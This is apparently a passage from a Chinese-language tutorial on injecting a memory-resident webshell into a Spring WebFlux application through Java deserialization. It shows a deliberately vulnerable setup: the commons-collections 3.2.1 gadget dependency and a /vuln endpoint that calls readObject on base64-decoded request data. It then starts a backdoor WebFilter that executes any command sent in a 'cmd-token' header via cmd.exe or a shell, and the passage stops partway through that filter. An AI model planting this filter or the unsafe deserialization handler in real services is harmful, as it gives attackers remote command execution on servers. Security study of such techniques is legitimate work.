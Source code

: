 ### 实例

首先在webflux应用中引入了存在CC利用链的依赖

```plain
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2.1</version>
</dependency>
```

创建一个POST /vuln路由，用来接收Base64编码的序列化数据

```plain
@Bean
public RouterFunction<ServerResponse> routeVuln(GreetingHandler greetingHandler) {
    return RouterFunctions.route(RequestPredicates.POST("/vuln").and(RequestPredicates.accept(MediaType.APPLICATION_FORM_URLENCODED)), greetingHandler::vuln);
}
```

一个处理请求进行反序列化调用的handler

```plain
public Mono<ServerResponse> vuln(ServerRequest request) {
        return request.bodyToMono(String.class)
                .flatMap(data -> {
                    try {
                        // 输出接收到的data参数值
                        System.out.println("Received data: " + data.substring(3));
                        // 进行Base64解码
                        byte[] bytes = Base64.getDecoder().decode(URLDecoder.decode(data.substring(3)));

                        // 创建输入流并进行反序列化
                        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
                        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
                        Object deserializedObject = objectInputStream.readObject();

                        return ServerResponse.ok().build(); // 返回一个表示处理成功的响应
                    } catch (Exception e) {
                        e.printStackTrace();
                        return ServerResponse.status(500).build(); // 返回一个表示处理失败的响应
                    }
                });
```

自定义的filter的逻辑

1.  通过从`ServerWebExchange`中获取请求头`cmd-token`进行执行命令的传入
2.  通过response.writeWith方法传入一个`Publisher`进行命令直接结果的返回

```plain
@Override
    public reactor.core.publisher.Mono<Void> filter(ServerWebExchange exchange, WebFilterChain chain) {
        try {
            String cmd = exchange.getRequest().getHeaders().get("cmd-token").get(0);
            if (cmd != null) {
                try {
                    ProcessBuilder processBuilder;
                    String o = "";
                    if (System.getProperty("os.name").toLowerCase().contains("win")) {
                        processBuilder = new ProcessBuilder(new String[]{"cmd.exe", "/c", cmd});
                    } else {
```